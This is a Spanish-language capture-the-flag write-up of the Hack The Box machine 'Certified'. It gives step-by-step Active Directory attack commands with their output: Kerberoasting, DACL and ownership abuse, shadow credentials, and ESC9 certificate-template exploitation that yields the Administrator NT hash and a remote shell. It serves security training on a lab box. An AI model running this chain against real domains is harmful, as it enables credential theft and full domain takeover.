## Box Info

| Name                  | Certified        | 
| :-------------------- | ---------------: |
| Release Date          | 02 Nov, 2024     |
| OS                    | Windows          |
| Rated Difficulty      | Medium           |

## Recon

Maquina Windows



Iniciamos con credenciales que nos provee hack the box.

Username: judith.mader Password: judith09

```java
# Nmap 7.95 scan initiated Tue Mar 18 15:52:19 2025 as: /usr/lib/nmap/nmap -p 53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49666,49668,49673,49674,49683,49713,49737,63553 -sCV -oN targeted 10.10.11.41
Nmap scan report for 10.10.11.41
Host is up (0.071s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-03-19 02:52:27Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-03-19T02:53:58+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject: commonName=DC01.certified.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.certified.htb
| Not valid before: 2024-05-13T15:49:36
|_Not valid after:  2025-05-13T15:49:36
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-03-19T02:53:57+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject: commonName=DC01.certified.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.certified.htb
| Not valid before: 2024-05-13T15:49:36
|_Not valid after:  2025-05-13T15:49:36
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-03-19T02:53:58+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject: commonName=DC01.certified.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.certified.htb
| Not valid before: 2024-05-13T15:49:36
|_Not valid after:  2025-05-13T15:49:36
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-03-19T02:53:57+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject: commonName=DC01.certified.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.certified.htb
| Not valid before: 2024-05-13T15:49:36
|_Not valid after:  2025-05-13T15:49:36
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49683/tcp open  msrpc         Microsoft Windows RPC
49713/tcp open  msrpc         Microsoft Windows RPC
49737/tcp open  msrpc         Microsoft Windows RPC
63553/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 7h00m00s, deviation: 0s, median: 7h00m00s
| smb2-time: 
|   date: 2025-03-19T02:53:18
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
```



Con smb podemos obtener mas informacion sobre el dominio, windows, version, arquitectura y nombre del domino.

```zsh
netexec smb 10.10.11.41
```

```zsh
SMB         10.10.11.41     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
```

Agregamos los nombres del dominio a nuestro archivo hosts

```bash
echo "10.10.11.41 DC01 certified.htb DC01.certified.htb" | sudo tee -a /etc/hosts
```

```bash
netexec smb DC01 --shares

SMB         10.10.11.41     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.41     445    DC01             [-] IndexError: list index out of range
SMB         10.10.11.41     445    DC01             [-] Error enumerating shares: STATUS_USER_SESSION_DELETED
```

Otra opcion es: `netexec smb DC01 -u 'guest' --shares` pero respondera con lo mismo asi que pasamos las credenciales para validarlas.

```bash
netexec smb DC01 -u 'judith.mader' -p 'judith09' --shares
```



```bash
smbmap -u 'judith.mader' -p 'judith09' -H 10.10.11.41 -r SYSVOL --depth 10
```

_Listing all files from directorie SYSVOL_



No encontramos nada interesante.

- Users Enumeration

Con rpclcient podemos enumerar los usuarios de un dominio e incluso con parametros como `querydispinfo` para que nos muestra informacion como la descripcion de cada usuario.

`rpcclient -U "judith.mader%judith09" 10.10.11.41 -c 'enumdomusers`

```zsh
rpcclient -U "judith.mader%judith09" 10.10.11.41 -c 'enumdomusers' | grep -oP '\[.*?\]' | grep -v "0x" | tr -d '[]' | tail -n 6 > users 
```

![[Pasted image 20250318143107.png]]

```bash
#Administrator
#Guest
#krbtgt
judith.mader
management_svc
ca_operator
alexander.huges
harry.wilson
gregory.cameron
```

## ASREPRoasting Attack (Ticket Granting Ticket)

Con el ataque de ASREP Roast podemos identificar usuarios sin el kerberos pre-authentication (`UF_DONT_REQUIRE_PREAUTH`). Esto nos permite obtener un TGT (Ticket Granting Ticket) sin proveer credenciales. Desafortunadamente pasa lo contrario tienen habilitado el "DONT REQUIRE PREAUTH".

```bash
python3 GetNPUsers.py -no-pass -usersfile users certified.htb/
```



## Kerberoast (Ticket Granting Service)

```zsh
python3 GetUserSPNs.py certified.htb/judith.mader:judith09
```



```zsh
python3 GetUserSPNs.py certified.htb/judith.mader:judith09 -request
```



Esto *Clock skew too great* sucede porque el dominio tiene una hora diferente al nuestro, incluso al enumerar los puertos al final aparece algo como esto `|_clock-skew: mean: 7h00m00s, deviation: 0s, median: 7h00m00s` que hay que sincronizarnos la hora con el dominio para poder ejecutar algunas herramientas.

`sudo ntpdate 10.10.11.41`



Este hash no se puede crackear.

Como anteriormente mencione, con algunas opciones en rpcclient puedes obtener mas informacion.

```zsh
rpcclient -U "judith.mader%judith09" 10.10.11.41 -c 'querydispinfo' 
```

Con querydispinfo no encontramos nada.

Con `enumdomgroups` listamos grupos del dominio.

```zsh
rpcclient -U "judith.mader%judith09" 10.10.11.41 -c 'enumdomgroups'
```

```zsh
[Enterprise Read-only Domain Controllers]
[Domain Admins]
[Domain Users]
[Domain Guests]
[Domain Computers]
[Domain Controllers]
[Schema Admins]
[Enterprise Admins]
[Group Policy Creator Owners]
[Read-only Domain Controllers]
[Cloneable Domain Controllers]
[Protected Users]
[Key Admins]
[Enterprise Key Admins]
[DnsUpdateProxy]
[Management]
```

En active Directory los `RID` y los `SID` son componentes que identifican de forma unica a usuarios, grupos y otros objetos dentro de un dominio de Active Directory.

El `SID` es un identificador unico asignado a cada objeto de seguridad en un dominio de AD.
El `RID` es la parte del SID que identifica de forma unica un objeto dentro de un dominio.

En este caso tu puedes ver el RID del objeto grupo [Domain Admins].



```zsh
rpcclient -U "judith.mader%judith09" 10.10.11.41 -c 'querygroupmem 0x200'
```

Aqui aparece este unico RID que probablemente sea el de administrador.


```zsh
rpcclient -U "judith.mader%judith09" 10.10.11.41 -c 'queryuser 0x1f4'
```





```zsh
rpcclient -U "judith.mader%judith09" 10.10.11.41 -c 'querygroupmem 0x450'                              
        rid:[0x451] attr:[0x7]

```

Aqui podemos ver otro usuario

`rpcclient -U "judith.mader%judith09" 10.10.11.41 -c 'queryuser 0x451'`


De igual forma, con mayor comodidad con ``ldapdomaindump`` podemos extraer todos los usuarios,grupos del AD.

```zsh
ldapdomaindump -u 'certified.htb\judith.mader' -p judith09 -n 10.10.11.41 DC01
```



open .html with python3



El grupo que nos intereas es ``Remote Management Users`` en el cual el unico usuario que encuentra es ``management_svc`` por lo que sera nuestro objetivo.



## BloodHound

```zsh
bloodhound-python -d certified.htb -u judith.mader -p judith09 -ns 10.10.11.41 --zip -c All
```

``curl -L https://ghst.ly/getbhce > ./docker-compose.yml``

``sudo docker compose pull && docker compose up``

`Upload .zip and wait 10 seconds and search judith.mader`



Judith.mader puede agregarse a si misma al grupo ManagementGroup mediante el WirteOwner



### Modief AD Object | WriterOwner



```zsh
python3 owneredit.py -action write -new-owner 'judith.mader' -target 'management' 'certified.htb/judith.mader:judith09'
```



```zsh
python3 dacledit.py -action 'write' -rights 'WriteMembers' -principal 'judith.mader' -target-dn 'CN=MANAGEMENT,CN=USERS,DC=CERTIFIED,DC=HTB' 'certified.htb/judith.mader':'judith09'
```



```zsh
net rpc group addmem "Management" "judith.mader" -U "certified.htb/judith.mader%judith09" -S "10.10.11.41"
```

Ahora confirmaremos si realmente se agrego judith.mader al grupo Management con rpcclient

_Identifier if user judith is now in group management_

```zsh
rpcclient -U "judith.mader%judith09" 10.10.11.41 -c 'querygroupmem 0x450'
```





La otra forma de listar si se agregó judith al grupo de Management con `net rpc`

```zsh
net rpc group members "Management" -U "certified.htb/judith.mader%judith09" -S "10.10.11.41"

CERTIFIED\judith.mader
CERTIFIED\management_svc
```

### Shadow Credentials | GenericWrite

Una vez que estemos en el grupo ManagementGroup tendremos alcance a Management_svc mediante el GenericWrite.



```zsh
python3 pywhisker.py -d "certified.htb" -u "judith.mader" -p "judith09" --target "management_svc" --action "add"
```




```zsh
certipy shadow auto -username judith.mader@certified.htb -password judith09 -account management_svc -target certified.htb -dc-ip 10.10.11.41
```

```zsh
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'management_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '4cb7a6f2-3dbf-732b-8d3b-73d19a794c68'
[*] Adding Key Credential with device ID '4cb7a6f2-3dbf-732b-8d3b-73d19a794c68' to the Key Credentials for 'management_svc'
[*] Successfully added Key Credential with device ID '4cb7a6f2-3dbf-732b-8d3b-73d19a794c68' to the Key Credentials for 'management_svc'
[*] Authenticating as 'management_svc' with the certificate
[*] Using principal: management_svc@certified.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'management_svc.ccache'
[*] Trying to retrieve NT hash for 'management_svc'
[*] Restoring the old Key Credentials for 'management_svc'
[*] Successfully restored the old Key Credentials for 'management_svc'
[*] NT hash for 'management_svc': a091c1832bcdd4677c28b5a6a1295584
```

```zsh
netexec smb DC01 -u 'management_svc' -H 'a091c1832bcdd4677c28b5a6a1295584'
```



WinRM


_Pwned_

## Shell as Management_svc

```bash
evil-winrm -i certified.htb -u management_svc -H a091c1832bcdd4677c28b5a6a1295584
```



#### Certified Template attack | ca_operator

Muy bien, ahora que puedo autenticarme exitosamente como management_svc, necesito cambiar a ca_operator, ya que ADCS está activo y tengo GenericAll sobre ca_operator, puedo obtener su hash usando certipy shadow.

```zsh
certipy shadow auto -username management_svc@certified.htb -hashes :a091c1832bcdd4677c28b5a6a1295584 -account ca_operator -target certified.htb -dc-ip 10.10.11.41
```

Obtuvimos el hash de ca_operator / b4b86f45c6018f1b664f70805f45d8f2. Ahora validaremos si es posible logearse con winrm.

```zsh
netexec smb DC01 -u 'ca_operator' -H 'b4b86f45c6018f1b664f70805f45d8f2'
```





Como no es posible logearse en winrm con las credenciales, ahora voy a comprobar si hay plantillas vulnerables usando certipy.

## PrivEsc to Administrator | Active Directory Certificate Services (AD CS)

```zsh
certipy find -vulnerable -u ca_operator -hashes :b4b86f45c6018f1b664f70805f45d8f2 -dc-ip 10.10.11.41 -stdout -vulnerable
```



### ESC9 - Certipy

¡Buenas y malas noticias! Tenemos una plantilla vulnerable, pero es ESC9. ESC9 es un poco más complicado, eso es todo. Podemos explotarla usando este artículo.

[Certipy 4.0: ESC9 & ESC10](https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7)

Primero, necesito cambiar el UPN(User Principal Name) de ca_operators a Administrador.

```zsh
certipy account update -username management_svc@certified.htb -hashes :a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn Administrator
```





Ahora necesitamos solicitar la plantilla vulnerable como ca_operator.

```zsh
certipy req -username ca_operator@certified.htb -hashes :b4b86f45c6018f1b664f70805f45d8f2 -ca certified-DC01-CA -template CertifiedAuthentication -dc-ip 10.10.11.41
```



Ahora podemos cambiar el upn nuevamente.

```zsh
certipy account update -username management_svc@certified.htb -hashes :a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn ca_operator@certified.htb

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_operator':
    userPrincipalName                   : ca_operator@certified.htb
[*] Successfully updated 'ca_operator'
```

Por último, pero no menos importante, podemos intentar iniciar sesión y robar el hash NTLM del administrador.

```zsh
certipy auth -pfx ../administrator.pfx -domain certified.htb
```



`aad3b435b51404eeaad3b435b51404ee:0d5b49608bbce1751f708748f67e2d34`

```zsh
evil-winrm -i certified.htb -u Administrator -H 0d5b49608bbce1751f708748f67e2d34
```




- Active Directory enumeration with Bloodhound
- Active Directory enumeration with Certipy
- Active Directory ACL and DACL abuse
- Exploiting ADCS misconfigurations